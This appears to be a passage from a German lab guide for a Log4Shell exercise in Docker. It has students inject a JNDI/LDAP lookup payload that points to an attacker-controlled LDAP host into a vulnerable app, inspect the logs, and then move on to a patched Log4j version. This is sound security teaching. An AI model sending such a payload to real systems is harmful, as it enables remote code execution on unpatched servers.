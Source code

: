 ```bash
$ docker logs -f <container_name>
```

##### 5. Exploit

Um den Log4Shell-Angriff durchführen zu können, musst du in das Eingabefeld einen präparierten JNDI-Befehl eingeben.

```bash
${jndi:ldap://<HOSTNAME_LDAP>:<PORTNUMMER_LDAP>/cn=BadCode,dc=src}
```

Falls du den präparierten JNDI-Befehl richtig eingegeben hast, sollte jetzt der Schadcode auf der Anwendung ausgeführt und du solltest eine Ausgabe in Dauerschleife sehen.
Mit der Tastenkombination 'STRG' + 'C' kannst du die Container-Shell beenden.
Der HTTP-Server sollte nun die Nachricht ausgeben, dass eine Request der Opferanwendung angekommen ist und eine Response an die Opferanwendung rausgeschickt wurde. 

Hinweis: Den Hostnamen und den Port des LDAP-Servers findest du innerhalb einer Datei in den Verzeichnissen des Versuchs. 

##### 6. Log-File der Anwendung auslesen

Die Anwendung erstellt eine log-file, in der die Logs gespeichert werden. Diese log-file kannst du auslesen in dem du dich langsam mit dem Befehl 'ls' in die Verzeichnisse rantastest.

```bash
docker exec -it <container_name> ls /root
```

Du solltest nun den Ordner 'logs' angezeigt bekommen. Passe deinen Befehl oben so an, dass du nun den Inhalt des Ordners 'logs' angezeigt bekommst.
Nun kannst du mit dem Befehl 'cat' die log-file auslesen. In der log-file sollte der JNDI-Lookup nur als String mitgeloggt werden. 


**Sie haben nun das Ende der Log4Shell-Übung Teil 1/2 erreicht.**






## Log4Shell Versuch - Teil 2

### Komponenten

Die Komponenten sind die gleichen wie im ersten Teil der Übung. Die einzige Änderung ist in der Komponente 'translatorapp'. Dort wird jetzt im zweiten Teil der Übung die Log4J-Version (2.20.0) verwendet.
Diese Log4J-Version ist die gepatchte Version und ermöglicht keine JNDI-Lookups mehr. Somit schließt es die Sicherheitslücke im Log4J-Framework. 

### Aufbau der Übung 

#### Einführung

In diesem Versuch werden sie versuchen, die Anwendung 'TranslatorApp' durch eine Injektionsschwachstelle anzugreifen und Schadcode auf der Anwendung ausführen zu lassen.
Beachte, dass du jetzt in das richtige Verzeichnis wechselst. Du solltest dich im Ordner "Log4Shellgepatcht" befinden.
